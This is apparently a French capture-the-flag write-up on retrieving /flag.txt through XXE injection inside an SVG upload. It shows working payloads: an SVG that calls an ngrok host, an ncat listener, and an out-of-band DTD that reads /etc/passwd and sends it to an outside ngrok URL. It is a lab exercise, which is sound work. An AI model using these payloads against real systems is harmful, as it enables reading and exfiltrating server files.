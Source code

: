 # Step 3 

> faut trouver le /flag.txt

> découverte du hint: svg -> xxe

## XXE inside SVG

> https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection#xxe-inside-svg

### Chopper une requete chez soit

```xml
<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="300" version="1.1" height="200">
    <image xlink:href="http://77ff5a3f.ngrok.io/"></image>
</svg>
```

```bash
# term 1
ngrok http 12345

# term 2
ncat -klvp 12345
```

Output : 

```
GET / HTTP/1.1
Host: 77ff5a3f.ngrok.io
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:67.0) Gecko/20100101 Firefox/67.0
Accept: image/webp,*/*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
X-Forwarded-Proto: https
X-Forwarded-For: 90.63.252.100
```

### XXE OOB

* e.svg

```xml
<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="300" version="1.1" height="200">
    <image xlink:href="http://00f5dfd7.ngrok.io/a.dtd"></image>
</svg>
```

* a.dtd

```xml
<!ENTITY % file SYSTEM "file:////etc/passwd">
<!ENTITY % all "<!ENTITY send SYSTEM 'http://3b292242.ngrok.io/?collect=%file;'>">
%all;
```